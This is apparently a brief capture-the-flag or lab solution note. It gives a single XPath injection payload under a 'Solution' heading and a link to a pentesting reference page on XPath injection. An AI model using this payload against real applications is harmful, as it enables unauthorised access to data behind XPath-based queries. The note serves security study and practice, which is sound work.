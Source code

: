 # Solution

`'or contains(.,'TCP') or '1'='2`

- <https://book.hacktricks.xyz/pentesting-web/xpath-injection#double-or-in-username-or-in-password-is-valid-with-only-1-vulnerable-field>

